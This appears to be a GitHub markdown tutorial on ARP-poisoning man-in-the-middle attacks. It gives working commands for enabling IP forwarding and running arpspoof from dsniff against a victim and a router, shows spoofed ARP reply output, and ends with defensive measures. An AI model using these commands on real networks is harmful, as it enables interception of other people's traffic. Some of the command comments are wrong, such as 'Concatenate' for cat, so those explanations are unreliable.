

# Man In the Middle (MITM) attach - ARP Poisioning

ARP poisoning is an attack wherein fake ARP reply packets are sent on the network. It can be further categorized into two possible attacks:
- Man in the middle (MITM)
- Denial of Service (DOS)

However, we will stick our experiment to MITM only.


## Modify Routing Status

File: /proc/sys/net/ipv4/ip_forward  

It signifies the routing of the packets to the current machine, which means all the packets going the router will also get delivered to the current address as well [1].

Command to modifying the status the routing of the packet:
```
// Mode changed to super user
sudo su
// Print 1
# echo 1 > /proc/sys/net/ipv4/ip_forward
// Concatenate 1 to 'ip_forward'
# cat /proc/sys/net/ipv4/ip_forward
```


## Perform packet spoof

Install **dsniff**: Library to perform the packet sniffing and spoofing
Command: `sudo apt-get install dsniff`

Command to spoof: 
`sudo arpspoof -i wlp2s0 -t 192.168.0.94 192.168.0.1`

Explanation: 
- wlp2s0: Device
- Victim Private IP: 192.168.0.94
- Router IP Address: 192.168.0.1

Output Screenshot:



Output:  
```
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
```

## After Spoofing

We cannot proceed further, because it would be illegal to go ahead and read someone's data, but this is not the end. There are several technique followed by a real attacker to make sense of the packet to take the security breach to the next level.


## Steps to overcome the ARP Poisoning

- Do not have a weak security mode for the Network, because it cannot prohibit unauthorized intrusion in the network.
- Having a weak password for the network security can be comprised if dealt with brute-force attack, or running authentication loop to authenticate with the commonly used words.
- Use CISCO routers that can help to examine the ARP spoofing.
- Detection Tools: ARP spoofing can be detected by the usage of the third-party tool like XArp
- Packet filtering and inspection can detect poisoned packets and catch them before reaching the destination (Or Attacker) [2].
- VPN can be relied upon to have a secure connections.
- Updated Browser with updated TLS/SSL.


## Reference

1. https://unix.stackexchange.com/questions/14056/what-is-kernel-ip-forwarding
2. https://www.indusface.com/blog/protect-arp-poisoning/